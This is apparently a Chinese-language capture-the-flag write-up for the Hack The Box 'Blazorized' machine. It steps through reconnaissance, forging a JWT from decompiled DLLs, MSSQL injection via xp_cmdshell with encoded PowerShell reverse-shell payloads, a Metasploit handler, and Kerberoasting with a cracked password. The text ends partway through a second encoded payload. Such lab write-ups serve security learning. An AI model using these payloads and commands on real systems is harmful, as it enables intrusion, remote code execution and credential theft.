

# 信息搜集

## Nmap

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# nmap --min-rate 10000 -p- -Pn 10.10.11.22   
...
PORT      STATE SERVICE
25/tcp    open  smtp
53/tcp    open  domain
80/tcp    open  http
110/tcp   open  pop3
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
593/tcp   open  http-rpc-epmap
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
...
┌──(root㉿kali)-[/home/tom/桌面]
└─# nmap -sT -sC -sV -O -p25,53,80,110,135,139,445,593,5985,9389,47001  10.10.11.22
...
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Did not follow redirect to http://blazorized.htb
|_http-server-header: Microsoft-IIS/10.0
110/tcp   open  pop3?
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Microsoft Windows XP|7|2012
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2012
OS details: Microsoft Windows XP SP3 or Windows 7 or Windows Server 2012
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2024-07-29T20:34:23
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
...
```

## 子域名FUZZ

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt   -c  -u 'http://blazorized.htb/' -H "Host:FUZZ.blazorized.htb" -fc 301,302 -mc all
```


我本地扫描全是超时......

得到admin.blazorized.htb子域名

## Port - 445

```
┌──(root㉿kali)-[/home/tom/桌面]
└─# smbclient -N -L 10.10.11.22
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.22 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

不存在匿名访问。

## Website - 80


加入hosts文件后访问。


### admin.blazorized.htb

将其加入hosts文件后访问


发现需要凭证才能够登录


可以发现web页面是基于Blazor框架搭建的网站。

## JS文件

由于该网站的前端是利用Blazor框架搭建而成的，我们可以从该框架下手，搜索关于该框架的信息，我们可以知道js文件实现了网站的几个特定功能。

```
http://blazorized.htb/_content/MudBlazor.Markdown/MudBlazor.Markdown.min.js

http://blazorized.htb/_framework/blazor.webassembly.js
```


看上去已经被混淆了，对其进行反混淆:https://www.sojson.com/jsjiemi.html


将代码提取出来，搜索_framework，能够发现一个隐藏的接口


访问json文件可以得到一些dll文件 


经过观察发现，除了默认的Microsoft dll文件外，还有新增的几个blazor dll文件

> "Blazored.LocalStorage.dll": "sha256-5V8ovY1srbIIz7lzzMhLd3nNJ9LJ6bHoBOnLJahv8Go="
#允许我们在本地存储中存储和检索数据
"Blazorized.DigitalGarden.dll": "sha256-YH2BGBuuUllYRVTLRSM+TxZtmhmNitErmBqq1Xb1fdI="
#Blazor应用程序专用的自定义程序集。包含与“DigitalGarden”特性或功能相关的代码
"Blazorized.Shared.dll": "sha256-Bz\/iaIKjbUZ4pzYB1LxrExKonhSlVdPH63LsehtJDqY="
#包含Blazor应用程序不同部分使用的共享代码和资源。包括通用模型、服务或实用功能
"Blazorized.Helpers.dll": "sha256-ekLzpGbbVEn95uwSU2BGWpjosCK\/fqqQRjGFUW0jAQQ="
#包含整个Blazor应用程序使用的辅助函数或实用程序的自定义程序集

下载下来这些有关blazor的配置文件查看。

# 漏洞利用

下载dll文件后使用DNSPY反编译工具打开寻找过后可以发现jwt、安全密钥、高权限用户等

> dnspy是一款.Net平台的集反编译器、程序集编辑器和调试器的利器


利用得到的信息，生成一个JWT。


将这一段JWT的内容添加到本地存储以访问admin界面


刷新进入。

## msf弹回shell

寻找漏洞利用点，发现http://admin.blazorized.htb/check-duplicate-post-title接口处存在MSSQL数据库SQL注入漏洞。

这里直接尝试使用xp_cmdshell执行反弹shell命令：

```
';exec master..xp_cmdshell 'powershell -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIASAA0AHMASQBBAEEAQQBBAEEAQQBBAEEAQQBLADEAVwBhADUATwBpAFMAaABMADkAMwBQADAAcgArAEQAQQBSAGEAcgBSAHQASwA3ADcAYQB1AHoARQBSAEYAdwBVAFUAQQBWAC8ANAA3AHQAdgBSAFUAVQBBAHAAaABjAFcAcgBBAEEAWAB2AHoAbgAvAGYAQQByAFcAbgBaADYAZABuAGQAeQBKADIAagBUAEMAbwBnAHMAcgBLAFUAeQBkAFAAWgBxAFUARwBvADAAYwB0AEkAcwBpAEkAVgBNACsARQB6AE8ATQBTAGsAaABCADUATABzAFAAZQAzACsAOQBpADEANABpAHkAYwBUAFoANAAyADgAUABvAHoAUwBlAGUAOABRAFoATQBrADgAQQB3AFoAUAA2ACsAdgA1AHMAQQBBAGgAeQBtACsATwBVAEkAeQBKAHYAagBtAFQARwBHAFoAUwBhAGYAWgBBAHUAaABHAFIATgBZAHUAcgB1ADcAdgA4AHQAZgB4AFcANABJAGQAdgBEAE4AQgBSAEUANgB3AGoAYwBIAFIAcABaAG4AaABzAHgAWABwAHYAagBDACsAVAA3AHYATwBRAEMANQByADMALwA4ADAAWQBzAEoAZwBXADUAMABtAFYAZgA2AE0ATwBMAEMARQBEAG8ANgBSAGoAQQBzAGwAcABoAC8ATQBpAHMATABFAHYAZwA0ADEAbQAxAG8AUgBNAHoAZgB6AEoAZQAzAFMAaAA5ADcATwBzAEQAWABaAFcAawBQAEcAQgBZADkAQgBlAGUAYQAyAFQAZgBGAE0AMABCADIAZwBvAHIAbQBZAHgAUQBWAEMAMwAvADkAVgBTAGkAOQBQAE4AWgBlAEsAMABJAFEAQQB4AHcAVwBDADEAbwBhAFIAdABDAHAAbQBCAGcAWABTAHMAeQAzAFUAdQBaAHcAbgB2AHEAdwBXAEYAQwBSAFEAYgB6AFEAMgAwAFcAVgBGAFgATAByAGIARwBXAFIAbwB4AC8AbAA0AE4AVQBMADkAawBMAHAAZQByAEsAOQBEACsAZwA1AGYAbgAzAEkAYgBOAGUATABUAGIARgBBAGgAeABQAEsARABYAGYAaABzAEYAQgBtAFgAagBKAC8ATAA2ACsAdgB6AEoALwB2AGEARwBhAHgARwB5AEUASABWAGkAUQAzAGcAcwBUAHoATgBVAGkATwB5AEkAQgBoAFoAUQBCAGMARQA4AE0AWgAzAEYARwB6AFEAawBoAGoANQB1ADQATABKAFEAcQBDAHcAQwBnAG0ATABuAFAARABRAHUAMgBPADMAZwBFAFcAdgA3AGcAeAB4AG0AVwA2ADcAOAB2AHYANwB2AHQAYQBIAE0ASABUAGoAZAB6AGYATgBTAHAAKwBOAEsASwByAEoAaABFAHAAbABhACsAYQArAEIAMAA2ADEARgB3ADMAbAArADMAbwBjAFgANQBDAC8AMABGAGMASgBmAHIANwBTAFcAQwBsACsAMgArAGYAUwBkAFcARQBHAE8ANQBCAEIATgA4AGkAeQB1ADgASAByAGQANwBmADMAYgAzAGsAUQAwAGoAUABVADUAeAA0AEkAYwByAHQAdgBqAEwAVgBNAHEATgBTAEUAQwBEAHkAUwBKAHEARgBjADAANQBpAFcASAByADkASABwACsATAAyADUAdABsAFcAUAA3AGwAUgByAFcAYgAxAGQAWABtAEUAcAA0AEwAagBxAC8ATQB5ADkASgBEADUAdQB2ADkAWABlAG4AKwBxAHAANwBzAC8AWgBzAGUASQAyAHgAQwBrAG4AMwAvAGQAVABiAHcAYwBJAGQAYwB5AEsAYwB1AGMASgBCAHgARQAzAHoAeABzADUAagBCAEgAWQBZADUASAA1AFgAYgBzAGgASABGAFcAUwB4AGMAUAAwAEMAVAB2ADcASgBUAHkAQQBoADkAKwBkAGwATQBjAEYARAAwAGIAdAB1ADkAZwBPAE0ATQBHAHYAZQBRAG8AcQBLAFMASwBQADAASQA1AGgATABEAFkAawBGAHkAVgBlAGgAUQAvAGkANQB6AEsAdABNAHYATwA1AHAAbQA4AEwAYgA2AG0AbAByAHAAegBYAHMAMgB6ADcAVABjAHcAeQBBAE0AeQA4AHcAawBwAG4AbAB1AGwAQgBrAE4AQQBnAHoATgBNAHMATwA1AEkAYgBwACsANAB1AEwASQB5ADQAZQBGADcAMwBEAFYARwBFAGYASQBBAEcARgAwADIAKwA2ADEAOQBBAG0AbABWADkAYwA5AHoANgBVAFoARQB4AHMAMAB1AHAAUwBHAHUAZQBaAEQAQQB3AEcAYwBzAFYASgBtAEIAcwBpAEUAMwBWAFIARAArAHgAdQBFAHcAcQBlAGMAOQBBAEQARwBOAE8AWABvAFQAawBjAGEARQAvAG8AbQA0ADAASwBMAE0AcwAwAFEAcwAvAHoAdgArAGkAaABWAE4AQgBoAEoAagBvACsAaABRADEAZgBuAFYAVQBqAEUAWQBFADkAcgB6AGoAVwBqAGMAcgBtAEIAUABUAFEATAAvAHcASAAyAEwAVQA4AHUAUwBaAEYAeABkAFMAUABwAEEAMgBnAHEAQQBBADEANwBVAFoAbABaAEkAaABMAFIAdQBsAFkAbwAvAHkAUwA4AC8AdwAzAGUAagB5AFgAbQBCADUAZwA5AEEAcQArAEIATABPAGEASgBLAE8AMQBvAFEAYgA5AFUAQQBjAHAATwBpAE0ANgAwAEcATQBPAEEAZQBTADUAbABLAGYAagBTAFQAYQBNAHMAbAAvAEoAdABqAE8AeQA2ACsAZgBwAE8AZABFADQAcgBpAGEAaQBSAFMARAB5AG4AQwAwAEwAWQBhAG0AaAA1AGoAUwBzAFcANgBtAHkAOABUAHoAbwBUAHAAWgBXAHEAdABzAFEATwAwADQAMAA3AFMAZwB4ADMAUwBZAFMAagAyAEEAYwB0AEsANQBtAHkAcwBXAGYATQBJAHgASQBNAEIASgA3AE8AWgB3AFkAYgBoAHIAaQBQAGYAZAAxAFMAQQBwAEEAbwB0AHAAMQAwAGUAdQB0AFUAbQBIAEMAcwBnAGwAcQBvAGkAYQBSAFkANgBaADUAZABFAFIAawBPAHQAWgB1AE8AdgBjADIAcwBRADYAVABqAFMAUABSAHcAMgBKAFoANwA0AG0AbwBCAGsAQgAzAGsAdgBtAEsAbgBVAFQATQBGAGsAQwBwAG4AbwAyAFcAUgBNAFEAdQA5AHoAVwBrAFUAUwBNAGMASgBaADYANgBPAFIAcwB1AFIAUABiAEUAVgBVAGQAdABsAEwATQBRACsARQBlAEwAeABaAEIATQByAGcAZQBKAEkAcQBHAEUAZAArAFcAVQAwAFAARQByADkANQA0AEgATQBiAHMAQQB6ADEAdABzAHcAdAB6AGUARAB6AE4AYwBtADIAQgA5AEIATgBqADkAMwBzAGoAawBLAGUAcABCAGsAZgBqAGEAVQBmAFYAaQB2AHQAZQBCAHEAMgBOADYANABQAG8ASwByAGUASAA4ACsAagBaAEIAaABuAG4AbgBJAEQAdQBuADcAMgBGAE0ATgBQADYAeQBQAHoAcwBiAHUAYwBMAEMAQgBYADEAdABvAGgANQBvADgAWAAyAHoAWABsAEoAcwBhAEMASQBpAG8AdAA0AGkAMgA4AGYARgB4AHkAUwAwAE8AOQBjAG0AVwA1AE4AaQBPAEkAcwBVADQAeQBuAEEAaQBnAHgAMgBlAE4ALwA1AGgAYQB5ADQARABvAFQANwBSAHAAYwBVAEEAawB5AEEAZQBJAHUAZABKAGMASwBYADAAdQBzAFkAWgBwAHAAcgBXAHAAVQA5ADUAYQA4AHIAQgBjADkATQA4AHMAKwBuAEEAYgA0AEEAVwBRAFoAVABUAGgAUABwAHAAWgAvAHcAYQBpADkAQwBXAFYAbQBQAFgAVwBJAHYASQBNAFMAeQBXAG4AOQBsAEcAeAA0AG0ARABKAHMAWABkAEcASQB5AEcAOABqAG8AaABRAFQAUQBrAHcAUgBFAEgAegBmAEgARQB5AEgARABuAGQAdABuADYAYQBRAE8AUABhADMAUgA5AG8ATgB1AEsARABCADQAawBwAE4AcQBnAGMAdwA0AFYARwBSADYAegBjAFQAcgBoADUAUwBTAFYAYgBPAGsANQA3AG0AWgAyAGYATAA5ADUAbQBnADQATwB0AHAAUQArAFYAUgAvADYAYwA3ADYATABBAGUAcwBNADEAagB0AGIANQBBAGQAagB3AEYAcgA4AHoAaQBGAGIAdwBWAHIAeQBhAFUALwBXAHQAcgBwAGwAQwB2AE0ASgBDAGQATQBOAFMAbABZAHMAcAA4AFIAUABXADgAUwA3AGQAUgBzAHQAZwBBAEgAawA1AHQAcAB4AEIAOABaAEEAMQBLAGMAdABYAFcAcwAzAEoAOQB6ADgAeQBkAHMAdgBqAE8AQQBzAGoAYQAxAE8ATwBtAEkAWAB3AG4AYgBHAE8AMABOAGgAZABxAGkAdAArADkATgBSAFAAQgBlAHgAUABLADkAMgBlAG4AegBYAEcAQQBrAG4AVgBaAGsASwB5AFgAaABSAEgAYQA2ADEAZwB6AGkAWgBXAFgAdABlAGQANwB2AEIAZABxADgAdQArAEoAbQA2ADQAZQBvAHoARwBnADkAVABYAFkAbwBjAHIANgA4AE4AWAB0AHgAWAB0AFIANQBxACsATgBMAFQANgBDAFIAbwAyADMAYQBmADAAOABQAFoAcAB0AHYAawAxAFAAawBwAGUAbwBaAEQAVwBlAEwANwBoAC8ARgBvAGgAUwBGADgAcwBFAEsAQwBTAFcAZQA5ADQAeQBCAHYAUwBkAEsAdQBOADcATwBuAEMANgA0ADkASAB6AGUANQBxAGoAcQAxADEAbwBkADEAVgBiAE8AbwAwAHUAMgBFAHQAOQB2AEoAWABoAFUAbwArADIAcQBZAGUAcABJAHcAUAB4AEcAdwBZAHEAdQB0AFcARQBhAHAAdgA1AFgAWAA2AC8ASABoAFEARwBwAHEAMQBCADYARwBVAHMATwBXAGgAZABDAHMASAB6AFgAaAArAGYAdwBzAFQAeQB5ADUAcwA0AFIASQBKAHAAYQBmAGwAWgBVAEcAbAA2AGEAdABBAEgATwB0AEoARgBHAGEAcwBpAHAAYgB6ADkAQwBFAFkAcAB5AEEARABuAFoASQB6AFIASQBQAFUAbQBxAEQANQBUAGoAYQArAHgAMQAwAEMAcgBmAFYATABWAGoAbwBzADQAZABHAHEARAB3ADkASQBiADgASgBGADMAQgBVAHQANgBvAEQAOAA2AGwANQBJAEYAVwAvAFUALwBkAHIALwBaAE0ANABRAGsATQBrAFcAZgAwAFIARwBoAHQARABVAGUARQA5AEQAaQBvADgASABQAGQAMABuACsAVwBUAGEAYQBlADYAUQBwADQAaABLAHYATQBsAHEAagAzADEAbgBzAHkAcQBOAFYAeQBaAGgAKwBHAHoAVQBaADMAaQBoAHIAeABiAEsAMABlADQAVgBPAGQATgBHAFIAeABFAEMARwBOAG4AUABlAGgARgAwAHIAUwBqAE4AdQB5AE4AWAA1ADkAagBUADYAeABkAE4AQgAxAHMAcQBWAFoAcABqAHMAcQA2AGQATQA1AHkAVgBRAGEAYgBQAEcAZgBsAEwAVwB5AFkAcAB5AFEANgBzADYARABkAFAAUgBuADkATwBFAGoAbwB2ADAAbwAxACsAYgBDAGkAYQAwAC8AWgBtAGkAQgBnAHEAYQA1AFYAZgBSAFcAYwBxAEsANQBCAGkAMwBlADUAbABtADQAdgBtADAAcwB4ADYATQAyAEkARgBQAGQAbwAzAHUAdABWAFcASQAvAGEASQBOADEAUQB2AGEAbQAyADgAYwBBAHIAeAAxAEgAYgBxAEgAZQBsAE8AVAAvAEwALwAwAHQAKwBOAHAAMQBKAFoAMgBGAHQATABzAE8AdgBlAFoAbgBjAGUAWQBSADIAUABrAG4AVwBUAGYAeQBEAG8AYwA5AEgASABEAEgAdgB4AFkANgBXAE8ARgBwAGEAcwAvAGMAUABEADMAawA1AHYASAB2AC8AOQBQAEkAbABlAGIAMgAxAGsATwAvAHoAUgB6ADIAaAAyADkAVwBiADkAMwBmAGYAYgByADMAQwBFAFgAeQBvAG0ATAAvAHEAegBGAFIAQQBRAGcAdABnAFcAawBsAHAAZAAzAFcANwBHADAAVwBQAGkATgBjAGUAYQBlAEsAaAB6AEsASgBZAC8ATAB5AHQAUAAwAEQAaQBRAGsAeABiAFgAdABvAFUAMwAyADQAVQBEAG0AUABQAHkATABxADYAWAA3AFIAWABmADcANwBYAGYASABwAHoATAB1AGkAdwB6AG4ANAA2AEsAbgAyAC8ASABFAHEAbAAyADcAVwBuAHgANwB0AGQAMwB2AHAAYwBqADMAagByAEEATAA5AGYASQAxAHQANgB2AHYASQBIAEkAaABYAG8ANwBpAE8AcgB6AEYAUwBUAGUAcgBWAGEAegBaADYATgBLAHQAMwB0ADkANABuAHAAZQBYADUAYQBmAE4AKwB2AG4AUABWACsASAA2AEIAOABkAEkAVgB6AFYAKwAvAE4ARwBvAGwAZABCAC8ANABmAFkALwBDAEQAMQAvAC8ATwBiAHMAWgBmADMAagA5ACsAWgB5ADkASAA5AEQAbABsADIAWQBYADgATAB4AHcAbgAzAHoAcgBmAEQAUQBBAEEAIgApACkAOwBJAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBpAHAAUwB0AHIAZQBhAG0AKAAkAHMALABbAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAOwA=' --+
```

这里我使用cs生成的payload，之后利用msf监听反弹shell。

### cs生成payload

注意是x64架构。


得到exp


之后将上面的exp与代码执行点相结合。

### msf监听反弹shell

注意架构是x64

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.16.72
lhost => 10.10.16.72
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.72:1234 
[*] Sending stage (200774 bytes) to 10.10.11.22
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.10.11.22 - Meterpreter session 4 closed.
[*] Sending stage (200774 bytes) to 10.10.11.22
[*] Meterpreter session 5 opened (10.10.16.72:1234 -> 10.10.11.22:52370) at 2024-08-01 05:07:18 +0800
```


## sharphound搜集域信息

上传sharphound.exe

> BloodHound以用图与线的形式，将域内用户、计算机、组、Sessions、ACLs以及域内所有相关用户、组、计算机、登陆信息、访问控制策略之间的关系更直观的展现在Red Team面前进行更便捷的分析域内情况，更快速的在域内提升自己的权限。它也可以使Blue Team成员对己方网络系统进行更好的安全检测及保证域的安全性。
> 
> BloodHound通过在域内导出相关信息，在将数据收集后，将其导入Neo4j数据库中，进行展示分析。Neo4j是一款NOSQL图形数据库，它将结构化数据存储在网络上而不是表中，Bloodhound正是利用这种特性加以合理分析，可以更加直观的将数据以节点空间”来表达相关数据。
> 
> 操作步骤：https://www.freebuf.com/articles/web/288370.html

通过curl命令远程下载sharphound.exe


运行sharphound.exe


运行结果：产生BloodHound.zip文件，我们需要将其加载到BloodHound服务中去。

```
C:\Users\Public>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9756-87FD

 Directory of C:\Users\Public

07/31/2024  04:51 PM    <DIR>          .
07/31/2024  04:51 PM    <DIR>          ..
07/31/2024  04:51 PM            12,360 20240731165141_BloodHound.zip
10/06/2021  03:38 PM    <DIR>          Documents
09/15/2018  02:19 AM    <DIR>          Downloads
09/15/2018  02:19 AM    <DIR>          Music
09/15/2018  02:19 AM    <DIR>          Pictures
07/31/2024  04:50 PM         1,046,528 qwe.exe
09/15/2018  02:19 AM    <DIR>          Videos
07/31/2024  04:51 PM            10,667 ZWY3N2UxMzgtNTg0Zi00OTg1LTllNmQtMDg1Yjc5ZmYzNWMz.bin
               3 File(s)      1,069,555 bytes
               7 Dir(s)   6,110,216,192 bytes free

```

下载BloodHound.zip文件到本地




查看域内信息


## PowerView.ps1

这里不能在meterpreter下使用upload，原因是权限不够，只能shell进去使用curl命令下载

```
C:\Users\Public>curl -o 123.ps1 http://10.10.16.5:8888/powerview.ps1
curl -o 3.ps1 http://10.10.16.5:8888/powerview.ps1
```


以powershell环境执行ps1

```
Import-Module ./123.ps1
```


<br/>

## SPN劫持

执行命令

```
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='test/test'}
Get-DomainSPNTicket -SPN test/test
```

获取请求服务票据 


复制下来放在hashcat进行解密

```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt -o found.txt --force
```


```
password: (Ni7856Do9854Ki05Ng0005 #)
密码： (Ni7856Do9854Ki05Ng0005 #)
```

## RSA_4810

使用evil-winrm作为RSA_4810登录：

```
sudo evil-winrm -i blazorized.htb -p '(Ni7856Do9854Ki05Ng0005 #)' -u RSA_4810
```


进入后继续上传PowerView.ps1通过Get-NetUser查看信息

```
*Evil-WinRM* PS C:\Users\RSA_4810\Documents> upload powerview.ps1
```


## SSA_6010

通过Get-NetUser进行信息收集过后，我们发现**其他用户的logoncount为 0，用户SSA_6010登录计数为 4079。**

> LogonCount 是登录计数，是Active Directory (AD)环境中配置文件信息的一部分的属性。


### 根据路径寻找可执行权限

我们在SYSVOL中的A32FF3AEAA23目录下有写权限。

```
icacls A32FF3AEAA23
```


```
'powershell -e JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIASAA0AHMASQBBAEEAQQBBAEEAQQBBAEEAQQBLADEAVwBhADMATwBpAFMAaAByACsAbgBQAHcASwBQAHEAUgBLAHIAUgBpAGoAZQBFAHYATwBWAHEAbwBPAEsAaQBpAEsAcQBLAEEAbwA1AHEAUgBTAEwAYgBRAEsATgByAGUAbQBRAGYARABzAC8AUABkAHQAVQBEAE8AWgBuAGMAegB1AFYATwAxAGEAWgBkAEUATgA3ACsAWABwADUANwAzADAAcQAwAEwAeQBvAEIASgBzAEcAVwBUAHMAbQBaAEIANQAwAEMAQQBPAEwAYwA5AGwAMgBOAHYAYgBiAGUAUQBhAEoARgB0AG4AaQAvAGMAZABKAE8AOAArADkAbwB4ADMAWQBKAG8AWQBoAGkASAB6ADkAKwAzAE4ARgBHAEQAZwBNAE0AVwA3AEcATwBCADMAeAB6AE0AagBCAE0AdABNAHYAcwBrAEUAbwBSAGwAaABXAEwAcQA1AHUAYgAzAEoAWAAwAFYAdQBDAEwAYgB3ADMAUQBYAEUAaQB1AEcANwBBADgAbgBlAE0AMABQAG0AaABTAG0AKwBjAHIANwBmADgAeAB4AGcAdQBXADkALwAvAE4ARwBOAE0ASQBZAHUATwBlADgAcgBmAFUAaQA0AE0ASQBUAE8AQgBsAGsAdwBMAEoAYQBZAGYAegBMAEwAUABjAFQAdwBZAGIASwB4AG8AVQBHAFkAdgA1AG0ANwA5ADAAbwBmAGUAUgB1AEEATABtAEoAcABGAHgAaAA3AGUAZwByAE8ATgBiAE4AdgBrAG0AZQBBADcAQQBRAFYAMQBVAGMAVwBLAFIAYgArACsAcQB0AFEAZQBuADIAbwB2AFYAWAA0AEkAQQBJAG8ATABCAGIAVQBOAEMAVABRAHEAWgBnAEkARgBVAHIATQB0ADEATABtAGMASgA3ADYAcwBGAGcAWQBXAHcAYgAyAFEAbQA5AEwASwBrAHYATAByAGIATwBWAFIAWQA1AGUAegBzAEcAUAB6ADkAZwBMAHAAYwB2AEoAZABqADYAZwA1AC8AagAxAEkAVABPAHIAWgA1ADEAaQBnAFMANgBuAGwAQgB2AHUAegBHAEcAaAB6AEwAeABtAC8AbAA3AGYAMwBwAGcALwBQADkAQQBvAGsAVQBzAHMAQgAxAFoARQBsADAARABzACsAUwByAEUAcwBXAFgAQQBzAEQASQBBAHIAbwBtAGcAQQByAGQAVQByAFIARABTAG0ATABtADcAUQBvAG0AQwB3AEoAQgBFADIARwBXAHUAVwBLAGgAZQA3AEIAMQBnADgAYwA2AE4ARQBDAHAAVAB1ADYAKwAvAGEALwBlAHQASwBNAFAAagBsAGQAegBmAFYAUwBwACsAVgBxAEoAUwBVADQASgBMADUAVQB0AE8ALwBBADQAZAA0AHoAeAB2AHoAdQBiAG8AYwBYADUAQwAvAHkAbQA1AFMAdgBUADMAVQA0AEsAVgBiAHIAOQA5AGwAYQBvAG0AUgBIAEEASABDAEgAdwBuAGwATgA5AFAAdQBYAHAANwBjAC8ATwBhAEwAeQBFADkAVAAzAEgAcQBoAFYAYQB1ADkAOABKAFUAeQA4AHkAWQBnAGcARABFAHcAMgBrAFcAegBqAG0ATwBZAE8AbgB0AGUAMwB6AE8AYgBxACsAYQBZAGYAbQBYAGgAbQBwAFgAcgBZAHYATwBPAFQAeABuAEgAQwAvAE0AcQArAFoAWgA1AHQAdgB0AFQAZQBuADIAawBqADMAWgArAC8AZABOAFoAQwBFAFQANAB1AHoANwByADYAdQBoAEIANwBlAFcAQwAzAHUAcABDAHgAegBMAHUAQwBaADgAOABhAHUAWQB3AFMAMgBDAE8AUgArAFYAcQA1AGgATQBjAFIAWQBMAGwAdwAvAFEANwBGADMAWQBLAFcAUwBFAHYAdgA2AHMAeABqAHMAVwArAGQARAB0AG4ATQBGAHgAQgBvADEANwBTAEYASABSAGwAQwBqADkAQwBPAFkAYwB3ADIASgBCAGQATQBmAFEAbwBmAHkAZAA5AHoAUgBOADcANwBhADAAegBPAEIAVgArAGwASgBhADYAZABWADcAdABzADkAeQB1AFkAdABBAEcASgBhAFoAYQBVAFQAcgAzAEMAZwB6AEsAZwBRAEkAbQBtAFcARwBjADAAUAByADgAbwBtAEwAaQBKAGMAdgBDADkALwBoAGoAaQBOAEUATABBAE8ARQA1AEcAcgB1AHIAZgBRAEYAcABSAGYAWABYAGMAKwBsAEYAUgBNAFoATgBMAHEAVQBoAHIAbgBxAFEAOABNAEMASwBHAE8AbAB6AEEAdwBzAEUAMwBaAFMAMQBkAHAAZABJAFIAUwArADUASwBRAEwARQBLAEkAbABSAHkAMwBGAE4AQwBiADAAVABjAGEARgBTAHIASwBjAHcAVwBiADUAMwAvAE8AagBWAEYARQBoAEUAUgAwAGYAUQBZAGQASwA1ADEAMQBJAFEARwBCAEgAZQA4ADYAbABvAHYASgAwAEEAegB0AG8ARgB2ADQARAA3AEcAdQBkAG4ASQBzAGkANAArAHAASwAwAGkAZgBRAE4AQQBGAFUANQBKAEUAeQBvADEAbQBZADAATAA1AFcASwBQACsAVQBlAFAAOABiAHYAQgA5AGIAegBBADgAdwB1AHgAaABlAEEAbABuAE0AQwAxAEgAYwAwAG8AWgArADcAZwBLAFUAbgBkAEEANgAwAFcAWQBNAEEAKwBhAHAAbABKAFgAZwBhAHkAYwBsAFcAUwAzAGwAWgBvAHoAcwB1AG4AbgA1AEkARABxAG4ARgBSAE8AcQBKAEcARABQADYAWQBBAFEAdABoAHAAcQAzAHUATwBLAGgAVABvAGIANwBaAEwAbgBxAGQAUgBLAHgANwBiAEkARABsAFAAZABsAFIAUABEADEAVABBAGYAQwAzADMAUQAyAGkAYwB6AE4AdgBLAE0ATwBjAEgAQgBnAE8ALwBSAHYAVwBLAHcAWQBZAGoANgB5AE4ALwBzAHAAUQBBAGsAawBtADAAbgB6ADkAMQBWAHkAawA4ADUAVgByAEoAYQBWAHQATQBTAEkANgBsAHoAYwBnAFgATABjAEsAagBlAGIATwBMAHAAeQBqAE0AVwBZADEAbgB3AFUATgBnAGUAZABZAFgAbABBAGwAaAAyAGsAUAB1AEsAbgBFAGIATgA1AEUARQBxAG4AWQB6AFcASABrADkAWQA2AE8AbABIAE8AUgBEAGoASwBXAGMAdQBZADYAUABsAGoARAB5AGgAUgBhAGkAdQBGAHYARwBSAGoALwBsAG8ATQB0AFUAagBLAFoAQQBjADAAVwByAHMANAA1ADUARwBoAHIASABZAGYAeABxAE0AVwBCADAAOABvAFUAMABiADUAdgBwAG0AawBQAG4AUwBnADEAMABNAHMAdgAzAHAATwBkAHQAYgBRAFIAZgBpAHoASQA5AE8AMgBZAGYAMQBXAGcAcwB1AGgAMgAzAGQAOQBTADIANABqAEgAYQBuAG8AMgB3AFoANQBxAGsASAAyAFMARgA5AEgAMwBsAGoAdwB3AC8AcgA4AHMAbg